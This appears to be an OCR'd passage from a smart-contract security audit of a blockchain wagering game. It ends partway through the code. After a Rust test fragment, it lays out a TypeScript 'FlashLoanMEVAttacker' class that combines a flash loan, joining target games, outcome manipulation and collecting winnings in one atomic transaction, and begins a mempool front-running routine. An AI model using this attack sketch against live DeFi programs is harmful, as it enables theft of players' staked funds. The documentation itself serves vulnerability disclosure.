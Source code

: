 ```rust
        execute_transaction(user_transaction);

        // Bot extracts value through optimal timing
        let bot_profit = calculate_mev_profit();
        assert!(bot_profit > 0);
    }
}
```

### Real-World Attack Implementation
```typescript
class FlashLoanMEVAttacker {
    async executeFlashLoanAttack(): Promise<void> {
        // 1. Monitor for high-value game sessions
        const targetGames = await this.scanForHighValueGames();

        // 2. Calculate required flash loan amount
        const totalRequired = targetGames.reduce((sum, game) => sum + game.betAmount, 0);

        // 3. Execute flash loan
        const flashLoanIx = await this.createFlashLoanInstruction(totalRequired);

        // 4. Join all target games atomically
        const joinInstructions = targetGames.map(game =>
            this.wagerProgram.methods
                .joinUser(game.sessionId, 0)
                .accounts({
                    gameSession: game.sessionPDA,
                    user: this.attackerKeypair.publicKey,
                    userTokenAccount: this.flashLoanAccount,
                    vault: game.vaultPDA,
                    tokenProgram: TOKEN_PROGRAM_ID,
                    systemProgram: SystemProgram.programId,
                })
        );

        // 5. Manipulate outcomes through coordination
        const manipulationInstructions = await this.createManipulationInstructions(targetGames);

        // 6. Collect winnings
        const collectInstructions = await this.createWinningsInstructions(targetGames);

        // 7. Repay flash loan
        const repayIx = await this.createFlashLoanRepayInstruction();

        // 8. Execute all in single atomic transaction
        const transaction = new Transaction()
            .add(flashLoanIx)
            .add(...joinInstructions)
            .add(...manipulationInstructions)
            .add(...collectInstructions)
            .add(repayIx);

        await this.connection.sendTransaction(transaction, [this.attackerKeypair]);

        // Result: Massive profit with no initial capital risk
    }

    async executeMEVFrontRunning(): Promise<void> {
        // 1. Monitor mempool for profitable transactions
        this.connection.onLogs("all", async (logs) => {
            if (this.isProfitableUserTransaction(logs)) {
                // 2. Create front-running transaction
```